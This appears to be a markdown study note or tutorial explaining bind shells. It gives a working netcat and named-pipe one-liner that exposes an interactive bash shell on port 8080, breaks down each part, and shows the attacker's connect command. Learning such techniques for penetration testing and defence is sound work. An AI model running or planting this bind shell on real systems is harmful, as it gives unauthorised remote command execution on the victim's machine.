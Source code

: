 
### Bind Shell
---
**What is a bind shell?**
- `Will bind a port on the compromised system and listen for a connection`
- `When the connection occurs, it exposes the shell session so the attacker can execute commands remotely`
- `Used when the compromised target does not allow outgoing connections, less popular since it needs to remain active an dlisten for connections, leading to detection.`

### How Bind Shells Work
-----
**Setting Up the Bind Shell on the Target**
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

**Explanation of the Payload**

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring error messages are returned to the attacker.
- **`| nc -l 0.0.0.0 8080`** - Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port `8080`. The shell will be exposed to the attacker once they connect to this port.
- `>/tmp/f` This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.


### Attacker now binds to Target machine (listening)
----
**Attacker Connects to the Bind Shell**

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.

`nc -nv TARGET_IP 8080`

**Explanation of the command**

- `nc` - This invokes Netcat, which establishes the connection to the target.
- `-n` - Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.
- `-v` - Verbose mode provides detailed output of the connection process, such as when the connection is established.
- `TARGET_IP` - The IP address of the target machine where the bind shell is running.
- `8080` - The port number on which the bind shell listens.